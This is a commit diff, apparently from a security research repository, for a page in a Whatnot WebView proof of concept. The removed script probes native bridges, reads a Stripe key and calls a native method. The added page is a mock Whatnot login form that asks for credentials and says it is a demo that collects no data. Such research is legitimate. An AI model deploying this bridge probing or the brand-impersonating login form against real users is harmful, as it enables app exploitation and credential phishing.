

Before and after one commit to calvis00/whatnot-webview-poc, a plain HTML site: page terms/index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-919 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/terms/index.html
+++ b/terms/index.html
@@ -1,41 +1,60 @@
 <!DOCTYPE html>
 <html>
 <head>
-  <title>Whatnot Exploit PoC</title>
+  <title>Whatnot Security Test</title>
+  <meta name="viewport" content="width=device-width, initial-scale=1.0">
+  <style>
+    body {
+      font-family: Arial;
+      background: #fff;
+      padding: 20px;
+    }
+    .box {
+      max-width: 400px;
+      margin: auto;
+    }
+    h2 {
+      color: #000;
+    }
+    input {
+      width: 100%;
+      padding: 10px;
+      margin: 10px 0;
+    }
+    button {
+      width: 100%;
+      padding: 10px;
+      background: black;
+      color: white;
+      border: none;
+    }
+    .warning {
+      color: red;
+      font-size: 12px;
+    }
+  </style>
 </head>
 <body>
-  <h1>WebView Exploit PoC</h1>
 
-  <script>
-    function log(msg) {
-      document.body.innerHTML += "<p>" + msg + "</p>";
-    }
+<div class="box">
+  <h2>Whatnot Account Verification</h2>
+  <p>Please verify your account to continue.</p>
 
-    log("Page loaded");
+  <input placeholder="Email or Username">
+  <input placeholder="Password" type="password">
 
-    // Check bridge existence
-    log("androidBridge: " + typeof window.androidBridge);
-    log("NativeStripeECE: " + typeof window.NativeStripeECE);
+  <button onclick="demo()">Verify</button>
 
-    // Try extracting Stripe key
-    try {
-      if (window.NativeStripeECE) {
-        let key = window.NativeStripeECE.getStripePublishableKey();
-        log("Stripe Key: " + key);
-      }
-    } catch (e) {
-      log("Stripe error: " + e.message);
-    }
+  <p class="warning">
+    ⚠️ This is a security research demo. No data is collected.
+  </p>
+</div>
 
-    // Try calling native method
-    try {
-      if (window.NativeStripeECE) {
-        window.NativeStripeECE.handleClick({ test: "poc" });
-        log("handleClick executed");
-      }
-    } catch (e) {
-      log("handleClick error: " + e.message);
-    }
-  </script>
+<script>
+function demo() {
+  alert("This demonstrates that a fake login page can be shown inside the app.");
+}
+</script>
+
 </body>
 </html>
```
